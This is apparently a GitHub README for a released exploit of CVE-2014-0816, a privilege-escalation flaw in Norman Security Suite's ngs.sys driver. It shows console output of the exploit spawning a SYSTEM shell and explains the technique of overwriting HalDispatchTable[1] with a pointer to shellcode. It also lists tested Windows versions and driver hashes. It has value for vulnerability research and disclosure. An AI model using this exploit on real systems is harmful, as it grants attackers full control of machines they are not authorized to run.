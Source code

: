 CVE-2014-0816
=============

This is an exploit for CVE-2014-0816 ([JVNDB-2014-000026](http://jvndb.jvn.jp/en/contents/2014/JVNDB-2014-000026.html): Norman Security Suite vulnerable to privilege escalation). 

This exploit launches CMD.exe with SYSTEM privilege from Non-Administrator privilege by exploiting the vulnerability in an IOCTL handler of ngs.sys / ngs64.sys.     
    

Usage
-----------------
    C:\Users\user\Desktop> exploit_ngs.exe
    [*] Exploit Norman General Security Driver (ngs.sys / ngs64.sys)
    [*] Target file version: ver 5.0.740.0.
    [*] An address file was created at C:\Users\user\Desktop\address.bin.
    [*] Shellcode is located at 000000013F9357D0.
    [*] The device was opened as 0000000000000044.
    [*] The address file was opened as FFFFFFFF80000558.
    [+] HalDispatchTable[1] is located at FFFFF800033FDC68.
    [+] HalDispatchTable[1] was altered.
    [+] Shellcode was executed.
    [+] The SYSTEM shell was launched.
    [*] Press any key to finish this program.
 
Then you will see a new console.

    Microsoft Windows [Version 6.1.7601]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
    
    C:\Users\user\Desktop>whoami
    nt authority\system

    
The vulnerability allows an attacker to overwrite an arbitrary address with arbitrary value, so this exploit changes the value of HalDispatchTable[1] with an address of shellcode that escalates privilege of current process to SYSTEM privilege. 

![demo_win7_x64](/img/demo_win7_x64.png)

This vulnerability will be exploitable on all platforms from Windows XP to 8 both x86/x64, but this exploit is designed and tested certain platforms (for example, it will not function on Windows 8 because of SMEP).

Tested Platforms
-----------------
- Norman Security Suite 10.1
 - 2ad60239e6637132fcaa816348c6ec3b358db49e (ngs.sys)
 - 21da5771db8308292c9d88a16b73260be40f0b09 (ngs.sys)
 - d2e34871d4d0fe04087e89f9c9f3599193b8258a (ngs64.sys)
 - fa1ed5997466263c8f91d8a4f3a80e3712cf777e (ngs64.sys)
- Windows XP (x86) SP3 with Guest privilege
- Windows 7 (x86/x64) SP1 with Guest privilege
- Windows 10 (x64) Build 14393 with Guest privilege (SMEP disabled)

License
-----------------
This software is released under the MIT License, see LICENSE.


